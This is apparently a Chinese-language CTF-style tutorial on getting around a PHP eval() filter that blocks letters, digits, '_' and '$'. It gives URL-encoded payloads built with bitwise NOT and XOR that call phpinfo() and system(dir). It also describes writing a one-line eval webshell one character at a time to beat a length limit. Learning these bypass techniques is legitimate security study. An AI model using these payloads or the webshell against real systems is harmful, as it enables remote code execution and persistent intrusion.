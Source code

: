 这里采用p神的例子：

本文思路也是来源于p神两篇文章：

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    eval($code);
}else{
    highlight_file(__FILE__);
}
```

此处过滤了，数字，字母，_，$

# 采用取反绕过：

首先构造phpinfo();来显示php信息。

payload:?code=(~%8F%97%8F%96%91%99%90)();//phpinfo();

![](images/6E1C29388AC54959A3B5D0F364E23FB2clipboard.png)

然后进一步操作，列目录。

payload:?code=(~%8C%86%8C%8B%9A%92)(~%9B%96%8D);//system(dir);

![](images/1646990F2FAC4B6DBEF0B8C4BC2A71B0clipboard.png)



此时，可以直接考虑直接写webshell，echo "<?php eval(@$_POST['a']); ?>" shell.php,但在此处，有长度限制，一句话无法写入。

但可以采用每次写入一个字符，在结尾追加的方式来写入。





# 采用异或绕过：

首先构造phpinfo();

payload:?code=(%8F%97%8F%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff)();//phpinfo();

![](images/107ACEA48A944B7F813F6B2A64E022E3clipboard.png)

列目录：

payload:?code=(%8C%86%8C%8B%9A%92^%ff%ff%ff%ff%ff%ff)(%9B%96%8D^%ff%ff%ff);//system(dir);

![](images/286ECD4C6D8647AA8F6B149B44678534clipboard.png)



